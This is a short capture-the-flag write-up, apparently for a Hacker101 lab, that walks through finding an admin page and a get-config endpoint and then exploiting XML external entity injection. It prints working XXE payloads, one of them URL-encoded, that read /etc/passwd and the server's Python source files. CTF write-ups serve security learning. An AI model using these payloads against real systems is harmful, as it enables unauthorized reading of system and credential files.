

FLAG0
Found an admin page with burp.
https://xxxxxxxxxxxx.ctf.hacker101.com/admin

In the admin page we have a comment:
<!-- We should be using get-config for this on the client side. -->

https://xxxxxxxxxxxx.ctf.hacker101.com/get-config

On top of the page there is ```<?xml version="1.0" encoding="UTF-8"?>``` which indicates the server uses xml for config.

xxe payload: ```<?xml version="1.0"?><!DOCTYPE root [<!ENTITY xxe SYSTEM "file:///etc/passwd">]><config><location>&xxe;</location></config>```

using this website the payload can be turned into url friendly format: https://www.urlencoder.org/

https://xxxxxxxxxxxx.ctf.hacker101.com/get-config?data=%3C%3Fxml%20version%3D%221.0%22%3F%3E%3C%21DOCTYPE%20root%20%5B%3C%21ENTITY%20xxe%20SYSTEM%20%22file%3A%2F%2F%2Fetc%2Fpasswd%22%3E%5D%3E%3Cconfig%3E%3Clocation%3E%26xxe%3B%3C%2Flocation%3E%3C%2Fconfig%3E



The server is hosted with python so we can read the main.py file which has the first flag.

```<?xml version="1.0"?><!DOCTYPE root [<!ENTITY xxe SYSTEM "main.py">]><config><location>&xxe;</location></config>```


In the main file we can see the server is using a custom rng file.

```<?xml version="1.0"?><!DOCTYPE root [<!ENTITY xxe SYSTEM "rng.py">]><config><location>&xxe;</location></config>```


FLAG1

